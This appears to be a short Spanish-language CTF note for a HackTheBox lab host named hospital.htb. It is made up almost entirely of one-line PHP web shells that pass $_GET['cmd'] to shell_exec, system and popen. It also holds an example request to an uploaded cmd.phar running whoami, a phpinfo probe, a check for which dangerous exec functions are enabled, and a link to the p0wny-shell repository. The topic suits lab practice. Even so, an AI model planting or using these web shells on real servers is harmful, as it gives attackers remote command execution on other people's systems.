


https://github.com/flozz/p0wny-shell


```php
<?php
 echo "<pre>" . shell_exec($_GET['cmd']) . "<pre>";
?>
```

```php
<?php
 echo "<pre>" . system($_GET['cmd']) . "<pre>";
?>
```

```php
<?php
  echo fread(popen($_GET['cmd'], "r"), 10000);
?>
```

http://hospital.htb:8080/uploads/cmd.phar?cmd=whoami

##### Versión php

```php
<?php
 phpinfo();
?>
```

http://hospital.htb:8080/uploads/cmd.phar



##### Funciones peligrosas
```php
<?php
  $dangerous_functions = array("exec", "passthru", "system", "shell_exec", "popen", "proc_open", "pcntl_exec");

  foreach ($dangerous_functions as $f){
    if (function_exists($f)){
       echo "\n[+] ". $f . " - EXISTE";
    }
  }
?>
```


